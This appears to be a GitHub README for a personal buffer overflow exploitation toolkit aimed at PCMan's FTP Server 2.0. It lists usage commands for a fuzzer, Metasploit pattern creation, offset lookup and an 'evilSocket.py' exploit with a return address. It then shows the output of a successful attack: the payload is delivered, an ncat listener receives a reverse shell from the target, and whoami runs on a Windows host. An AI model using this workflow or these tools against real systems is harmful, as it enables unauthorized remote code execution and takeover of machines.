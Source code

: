 # BufferOverflowToolkit
just some general purpose tools to help myself when detecting and performing buffer overflows

Ignore the code it's just PoC right now.

## Throw 100 bytes of data at the socket until it crashes, examine crash point
```
➜  exploitdev ./evilFuzzer.py 192.168.1.236 21 100
```

## Use Metasploit-Framework's pattern_create tool automagically.
```
➜  exploitdev ./evilPattern.py 192.168.1.236 21 2400
```

## Helper function to return the exact offset via pattern_offset from the instruction pointer
```
➜  exploitdev ./getOffset.py address
```

## Hunt your bad characters
TODO

## Blast your socket and get a connection back

```bash
➜  exploitdev ./evilSocket.py 192.168.1.236 21 2008 77F1E871 15
```

## End Result
```bash
[*] Connecting to 192.168.1.236...
[x] Connected to 220 PCMan's FTP Server 2.0 Ready.

[*] Sending payload...
[x] Payload delivered
[*] Waiting for target to connect
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::54321
Ncat: Listening on 0.0.0.0:54321
Ncat: Connection from 192.168.1.236.
Ncat: Connection from 192.168.1.236:50121.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\donthackmebro\Downloads>whoami
whoami
win-t72rd5qv7hv\donthackmebro
```
